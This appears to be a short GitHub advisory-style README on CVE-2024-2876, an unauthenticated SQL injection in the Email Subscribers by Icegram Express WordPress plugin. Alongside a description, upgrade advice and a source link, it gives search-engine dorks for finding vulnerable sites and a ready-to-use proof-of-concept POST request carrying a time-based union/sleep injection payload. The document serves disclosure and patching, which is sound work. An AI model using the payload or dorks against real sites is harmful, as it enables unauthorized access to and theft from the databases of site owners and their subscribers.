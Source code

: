 # SQL-Injection-in-WordPress-Plugin
CVE-2024-2876
#Description Of Vulnerability: The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection via the ‘run’ function of the ‘IG_ES_Subscribers_Query’ class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

#Dork: 1- FOFA : body="/wp-content/plugins/email-subscribers/" 2- publicwww : "/wp-content/plugins/email-subscribers/"

#POC: POST /wp-admin/admin-post.php HTTP/1.1 Host: {{Hostname}} Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111

#How to fix ? Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19). Patchstack users have the option to enable automatic updates specifically for vulnerable plugins. Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

#Resource: https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/


